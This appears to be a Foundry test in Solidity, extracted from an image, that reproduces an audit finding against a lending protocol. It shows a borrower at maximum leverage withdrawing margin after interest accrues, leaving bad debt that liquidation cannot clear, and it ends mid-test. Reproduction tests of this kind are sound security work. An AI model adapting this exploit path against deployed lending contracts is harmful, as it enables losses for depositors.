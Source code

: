 ```ts
        Factory factory = new FatFactory(
            address(0),
            address(0),
            VolatilityOracle(address(new VolatilityOracleMock())),
            new RateModelMax()
        );

        factory.createMarket(pool);
        (lender0, lender1, ) = factory.getMarket(pool);
        account = factory.createBorrower(pool, address(this), bytes12(0));
    }

    function setUp() public {
        // deal to lender and deposit (so that there are assets to borrow)
        deal(address(asset0), address(lender0), 10000e18); // DAI
        deal(address(asset1), address(lender1), 10000e18); // WETH
        lender0.deposit(10000e18, address(12345));
        lender1.deposit(10000e18, address(12345));

        deal(address(account), DEFAULT_ANTE + 1);
    }

    function test_selfLiquidation() public {

        // malicious user borrows at max leverage + some safety margin
        uint256 margin0 = 51e18 + 1000e18;
        uint256 borrows0 = 10000e18;

        deal(address(asset0), address(account), margin0);

        bytes memory data = abi.encode(Action.BORROW, borrows0, 0);
        account.modify(this, data, (1 << 32));

        assertEq(lender0.borrowBalance(address(account)), borrows0);
        assertEq(asset0.balanceOf(address(account)), borrows0 + margin0);

        // skip 1 day (without transactions)
        skip(86400);

        emit log_named_uint("User borrow:", lender0.borrowBalance(address(account)));
        emit log_named_uint("User stored borrow:", lender0.borrowBalanceStored(address(account)));

        // withdraw all the "extra" balance putting account into bad debt
        bytes memory data2 = abi.encode(Action.WITHDRAW, 1000e18, 0);
        account.modify(this, data2, (1 << 32));

        // account is still not liquidatable (because liquidation also uses stored liabilities)
        vm.expectRevert();
        account.warn((1 << 32));

        // make account liquidatable by settling accumulated interest
        lender0.accrueInterest();

        // warn account
        account.warn((1 << 32));

        // skip warning time
        skip(LIQUIDATION_GRACE_PERIOD);
        lender0.accrueInterest();

        // liquidation reverts because it requires asset the account doesn't have to swap
        vm.expectRevert();
        account.liquidate(this, bytes(""), 1, (1 << 32));
```